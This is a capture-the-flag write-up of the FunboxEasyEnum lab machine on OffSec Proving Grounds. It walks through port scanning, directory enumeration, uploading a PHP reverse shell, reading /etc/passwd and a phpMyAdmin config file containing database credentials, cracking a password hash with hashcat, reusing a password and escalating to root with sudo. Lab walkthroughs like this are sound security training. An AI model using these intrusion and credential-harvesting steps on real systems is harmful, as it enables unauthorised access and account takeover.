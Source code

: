 +++
title= "FunBoexEasyEnum by OffSec"
author= "v3l1d"
date= "2024-08-17"
draf= false
+++

![image1](Homepage-default-preview.jpg)

On a lazy Saturday morning, August 17, 2024, I embarked on a thrilling adventure in the world of Offensive Security, tackling the FunboxEasyEnum box on the Proving Grounds Play labs. This easy-level warmup machine was the perfect way to kick-start my journey, and I'm excited to share my experience with you.

### Port Scan

From port scan we got:

```
nmap -sC -sV -A -T4 -p- 192.168.235.132  -o scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 08:12 EDT
Nmap scan report for 192.168.235.132
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.77 seconds

```


### Enumeration 

Ran gobuster for directory enumeration:

![[Pasted image 20240814141922.png]]

Only /phpmyadmin is accessible
![[Pasted image 20240814142029.png]]

Analyzing burp request found that /phpmyadmin/js/whitelist.php and /js/messages.php are readable:
![[Pasted image 20240814143143.png]]

Nothing interesting here, re run enumeration with gobuster filtering for php file:

![[Pasted image 20240814144359.png]]

Try mini.php:

![[Pasted image 20240814144433.png]]
### Access

I uploaded a shell.php while listening on my kali:

![[Pasted image 20240814145857.png]]

```shell
lrwxrwxrwx   1 root root        31 Sep 18  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-117-generic
$ cd /var/www/ 
$ ls
html
local.txt
$ cat local.txt
896e80f60f8536d18c123448e656a7fc
$ 

```

Found first flag


```shell
www-data@funbox7:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
www-data@funbox7:/etc$ 

```

There's an hash in passwod

```shell
hashcat -m 500 oracle_hash
found:hiphop

```

Regain the revshell and from www-data run sudo su

``` shell
www-data@funbox7:/etc/phpmyadmin$ ls
ls
apache.conf    config.footer.inc.php  htpasswd.setup      phpmyadmin.service
conf.d         config.header.inc.php  lighttpd.conf
config-db.php  config.inc.php         phpmyadmin.desktop
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

```

Now we can log in phpmyadmin

![[Pasted image 20240815213653.png]]

```
sudo su karla:tgbzhnujm! 
```

Let's see what karla can run

``` shell
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL

```

Run sudo su with its password:
```
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# ls
root@funbox7:/home/karla# cd /root/root.txt
bash: cd: /root/root.txt: No such file or directory
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# 
```

![[Pasted image 20240815214144.png]]


# Flags

```
local:896e80f60f8536d18c123448e656a7fc
proof.txt: d0a70330bf49d3799b000cbe3d7ec011
```

